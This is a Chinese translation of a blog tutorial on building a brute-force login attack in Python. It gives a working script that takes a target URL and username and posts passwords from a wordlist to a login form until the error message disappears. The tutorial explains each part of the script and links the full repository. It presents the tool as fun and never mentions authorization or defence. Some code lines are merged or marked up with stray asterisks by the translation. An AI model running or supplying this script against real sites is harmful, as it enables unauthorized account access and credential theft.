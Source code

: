 # 用 Python 进行暴力攻击！

> 原文：<https://blog.devgenius.io/brute-force-attack-with-python-c1d70fcba607?source=collection_archive---------0----------------------->

![](img/35e26b564591a1ecfcea8d7d6436f18b.png)

2007 年我第一次上 7 班的时候，看了 [*黑客*](https://www.imdb.com/title/tt0113243/) 电影。安吉丽娜·朱莉和她的男朋友正在扼杀一切。那天我意识到我不想成为彼得·帕克。我想成为安吉丽娜的男朋友。也许因为黑客很酷，所以成为一名黑客比被蜘蛛咬了一口然后成为蜘蛛侠更现实。长大后，我开始满怀激情地学习编程。但在我的情况下，当我只学习却不能做或创造我喜欢的酷的东西时，这是最糟糕的事情。我可能会创建一个报告仪表板或一些 POS 系统，但这不是我想要的，这是我的客户想要的。当你创造你想要的东西时，你的学习就会变得有趣和愉快。

# 什么是暴力攻击？

> 暴力攻击是一种流行的破解方法:根据一些报道，暴力攻击占已确认的安全漏洞的 5%。暴力攻击包括“猜测”用户名和密码，以获得对系统的未授权访问。暴力破解是一种简单的攻击方式，成功率很高。

# 用 python 创建自己的蛮力！

让我们开始制作自己的暴力应用程序。首先，创建一个. py 文件，并随意命名。我给我的一只取名为 bruteForce.py。

之后，我们需要安装**请求**，我们可以简单地通过

```
pip install requests
```

现在是编码时间。

```
import requestsurl = input("Enter Target Url: ")
username = input("Enter Target Username: ")
error = input("Enter Wrong Password Error Message: ")try:
    def bruteCracking(*username*,*url,error*):
        for password in passwords:
            password = password.strip()
            print("Trying:" + password)
            data_dict = {"username": username,"password": password,                           "login":"submit"}
            response = requests.post(url, *data*=data_dict)
            if error in str(response.content):
               pass
            elif "csrf" in str(response.content):
                 print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
                 exit()
            else:
                 print("Username: ---> " + username)
                 print("Password: ---> " + password)
                 exit()
except:
       print("Some Error Occurred Please Check Your Internet Connection !!")with open("passwords.txt", "r") as passwords:
     bruteCracking(username,url,*error*)print("[!!] password not found in password list")
```

# 解释！！

首先，我们需要导入请求。因为 Requests 允许您极其轻松地发送 HTTP/1.1 请求。之后，我们只需要输入目标 URL 和目标用户名。此外，我们需要每一次错误尝试的错误消息。

![](img/b5d88595cbe84496f0d6598ba45d1864.png)

错误消息！！

仔细看这张图片。在这里，每一次错误的尝试，都会抛出错误的用户名或密码消息。我们需要这个信息。所以现在我们已经抓住了三样东西。

1.  目标网站。
2.  网站登录用户名。
3.  错误消息。

现在我们编写一个名为*的函数，它调用三个名为用户名、url 和错误的参数。此外，它调用一个密码列表文件。现在我们需要创建一个包含所有可能的密码列表的 [passwords.txt](https://github.com/Antu7/python-bruteForce/blob/master/passwords.txt) 文件。*

```
with open("passwords.txt", "r") as passwords:
     bruteCracking(username,url,*error*)
```

在这里，我们只是通过读取 passwords.txt 文件来调用 bruteCracking 函数。现在，在我们的主 bruteCracking 函数中，我们创建了一个 for 循环来从给定的密码列表中获取密码。为了消除空白，我们使用 strip()函数。现在，我们打印我们正在尝试访问该网站的密码。之后，我们创建一个发送请求的字典。

```
data_dict = {"username": username,"password": password,                           "login":"submit"}
```

这里的用户名和密码很简单，但是“登录”:“提交”元素是新的

![](img/d79a807275b0cf1eacce4a44b93de1c1.png)

为此，您需要检查登录页面。如果你仔细查看这个检查，你会发现按钮类型=“提交”和名称=“登录”

```
<button type="submit" name="login" class="btn btn-success btn-labeled pull-right">Sign in</button>
```

实际上你每次尝试都会自动触发登录按钮。现在您将使用请求 post 方法发送您的字典。当你发送的时候，它会给你一个回复。所以我们把这个响应放在一个叫做 response 的变量中。

```
if error in str(response.content):
    pass
elif "csrf" in str(response.content):
    print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
    exit()
else:
     print("Username: ---> " + username)
     print("Password: ---> " + password)
     exit()
```

现在，如果我们发现错误消息在 response.content 中，我们将简单地传递它并尝试下一个密码，因为它不是我们的密码。但是如果我们在这个回答中找到 CSRF。意味着*我们在劫难逃的内容！！我们的应用程序不能在这个网站上工作。什么是 CSRF 代币请谷歌一下。如果它没有返回任何数据，这意味着它成功了。*

> 恭喜你！！！我们找到用户名和密码。

这是一个非常基本的使用 python 的暴力攻击应用程序。用这个，你可能会有一些乐趣。你会发现一些灵感来学习更多。快乐编码。

如果你想要这个完整的代码，请检查这个 [Github 回购](https://github.com/Antu7/python-bruteForce)。